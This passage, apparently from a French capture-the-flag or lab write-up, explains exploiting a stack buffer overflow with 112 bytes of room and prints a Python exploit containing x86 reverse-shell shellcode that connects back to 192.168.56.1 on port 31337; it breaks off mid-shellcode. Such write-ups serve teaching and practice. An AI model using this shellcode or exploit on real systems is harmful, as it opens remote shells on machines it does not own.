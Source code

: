 Pour le reste, comme le montre l'image précédente, on dispose de 112 octets avant d'écraser l'adresse de retour, c'est suffisant pour y placer un shellcode pas trop gourmant.  

A propos de shellcode on pourrait utiliser [celui-ci](https://www.exploit-db.com/shellcodes/47530) qui réutilise la socket courante mais il faut bien sûr savoir qu'elle est la valeur de la socket. Ca pourrait marcher ici mais dans un cas plus réaliste ça peut être compliqué de retrouver la valeur du descripteur de fichier.  

J'ai testé plusieurs shellcodes de type bind de port et à chaque fois ça segfaultait sur la fin pour une raison qui m'échappe. Le port était bien mis en écoute (on peut s'y connecter) mais on n'obtenait pas de shell que ce soit sur la VM ou en local avec le binaire.  

Finalement j'ai utilisé un shellcode de type reverse shell et là pas de problèmes. Voici l'exploit final :  

```python
import socket
from struct import pack, unpack
from ipaddress import IPv4Address

IP = "192.168.56.3"
REVERSE_IP = "192.168.56.1"

# https://www.exploit-db.com/shellcodes/13393
SHELLCODE = (
        b"\x6a\x66"              # push $0x66
        b"\x58"                  # pop %eax
        b"\x99"                  # cltd
        b"\x6a\x01"              # push $0x1
        b"\x5b"                  # pop %ebx
        b"\x52"                  # push %edx
        b"\x53"                  # push %ebx
        b"\x6a\x02"              # push $0x2
        b"\x89\xe1"              # mov %esp,%ecx
        b"\xcd\x80"              # int $0x80
        b"\x5b"                  # pop %ebx
        b"\x5d"                  # pop %ebp
        b"\xbe"
) + pack("I", unpack("I", IPv4Address(REVERSE_IP).packed)[0] ^ 0xFFFFFFFF) + (  # mov REVERSE_IP,%esi
        b"\xf7\xd6"              # not %esi
        b"\x56"                  # push %esi
        b"\x66\xbd\x69\x7a"      # mov $0x7a69,%bp (0x7a69 = 31337)
        b"\x0f\xcd"              # bswap %ebp
        b"\x09\xdd"              # or %ebx,%ebp
        b"\x55"                  # push %ebp
        b"\x43"                  # inc %ebx
        b"\x6a\x10"              # push $0x10
        b"\x51"                  # push %ecx
        b"\x50"                  # push %eax
        b"\xb0\x66"              # mov $0x66,%al

        #
        # <_doint>:
        #

        b"\x89\xe1"              # mov %esp,%ecx
        b"\xcd\x80"              # int $0x80
        b"\x87\xd9"              # xchg %ebx,%ecx
        b"\x5b"                  # pop %ebx

        #
        # <_dup2loop>:
        #

        b"\xb0\x3f"              # mov $0x3f,%al
```